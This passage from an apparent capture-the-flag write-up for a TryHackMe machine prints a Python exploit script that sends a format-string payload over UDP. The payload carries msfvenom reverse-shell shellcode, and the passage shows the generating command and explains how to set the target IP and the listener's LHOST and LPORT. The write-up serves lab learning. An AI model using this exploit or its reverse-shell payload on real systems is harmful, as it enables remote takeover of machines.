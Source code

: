 ```python

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xcb\x46\x40"
shellcode += b"\x6c\xed\xa4\xe0\xfb\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xa1\x6f\x18\xf5\x87"
shellcode += b"\xa6\xbf\x91\xca\x18\x4f\x69\xa5\x33\xa8\x42"
shellcode += b"\xc9\x46\x41\xd1\x2d\x0c\x96\xf8\x9a\x0e\xc9"
shellcode += b"\x8a\x87\xb4\xba\x91\xe1\x1e\x4f\x69\x87\xa7"
shellcode += b"\xbe\xb3\x34\x88\x2a\x4d\xb5\xab\xe5\x8e\x3d"
shellcode += b"\x2c\x7b\x34\x74\xec\x5b\xd4\xa9\x2f\x2e\x43"
shellcode += b"\x9e\xcc\xe0\xa8\x83\xcf\xa7\x3e\xba\xec\x69"
shellcode += b"\x1d\xc4\x43\x40\x6c\xed\xa4\xe0\xfb"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```

>**NOTE:** This code runs with Python2. I'm sure there's a way to update the code to work with Python3, but I didn't try it.

To make this code work, we need to update the following:
- The 'ip' variable. This is the IP address of the THM machine. Leave the 'port' variable alone. 
- The shellcode. You can run the provided command, substituting your own LHOST and LPORT values. 

After updating those values and running the exploit with `python2 49613.py` we get a connection back to our `netcat` listener. 

![Testing](../images/screenshots/Pasted%20image%2020220704133946.png)
